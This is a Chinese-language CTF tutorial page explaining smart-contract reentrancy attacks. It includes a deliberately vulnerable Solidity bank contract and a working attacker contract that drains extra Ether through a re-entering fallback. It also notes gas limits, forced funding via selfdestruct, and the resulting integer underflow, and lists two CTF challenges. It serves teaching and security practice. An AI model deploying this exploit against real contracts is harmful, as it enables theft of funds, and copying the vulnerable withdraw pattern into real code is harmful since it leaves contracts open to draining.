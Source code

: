 # Re-Entrancy

重入攻擊是智能合約中的經典攻擊。以太坊 The DAO 項目遭受的重入攻擊直接導致了以太坊（ETH）和以太坊經典（ETC）的硬分叉。

## 原理
假設有一個銀行合約實現了以下取款功能，在 `balanceOf[msg.sender]` 充足時，合約會轉賬相應數量的以太幣給調用者，並且將 `balanceOf` 減去相應值：

```solidity
contract Bank {
    mapping(address => uint256) public balanceOf;
    ...
    function withdraw(uint256 amount) public {
        require(balanceOf[msg.sender] >= amount);
        msg.sender.call.value(amount)();
        balanceOf[msg.sender] -= amount;
    }
}
```

這個實現的問題在於，“先給錢後記賬”。在以太坊中，合約的調用者可以是另一個智能合約，轉賬時收款合約的 fallback 函數會被調用。若 fallback 函數內再一次調用了對方的 withdraw 函數，由於此時 `balanceOf` 尚未減少，require 的條件仍然滿足，導致可以再次取款。需要注意的是，fallback 函數需要限制重入的次數，否則會因爲無限地循環調用，導致 gas 不足。假設攻擊合約的存款有 1 ether，可以如下實現取出 2 ether：

```solidity
contract Hacker {
    bool status = false;
    Bank b;

    constructor(address addr) public {
        b = Bank(addr);
    }

    function hack() public {
        b.withdraw(1 ether);
    }

    function() public payable {
        if (!status) {
            status = true;
            b.withdraw(1 ether);
        }
    }
}
```

此外有幾個注意點：

- 目標合約使用 call 發送以太幣時，默認提供所有剩餘 gas；call 操作改爲對提款者合約的調用亦可實現攻擊；但如果使用 transfer 或者 send 來發送以太幣，只有 2300 gas 供攻擊合約使用，是不足以完成重入攻擊的。
- 執行重入攻擊前，需要確認目標合約有足夠的以太幣來向我們多次轉賬。如果目標合約沒有 payable 的 fallback 函數，則需要新建一個合約，通過 `selfdestruct` 自毀強制轉賬。
- 上述 fallback 實現中，先改寫 `status` 後重入。如果反過來則還是會無限循環調用，這和重入漏洞的道理是一致的。

重入漏洞與整數下溢出漏洞關聯密切。在上述攻擊後，攻擊合約的存款由 1 ether 變爲 -1 ether。但注意到存款由 uint256 保存，負數實際上保存爲一個極大的正數，後續攻擊合約可以繼續使用這個大數額的存款。

## 題目

### 強網杯 2019
- 題目名稱 babybank

### N1CTF 2019
- 題目名稱 h4ck

!!! note
    注：題目附件相關內容可至 [ctf-challenges/blockchain](https://github.com/ctf-wiki/ctf-challenges/tree/master/blockchain) 倉庫尋找。
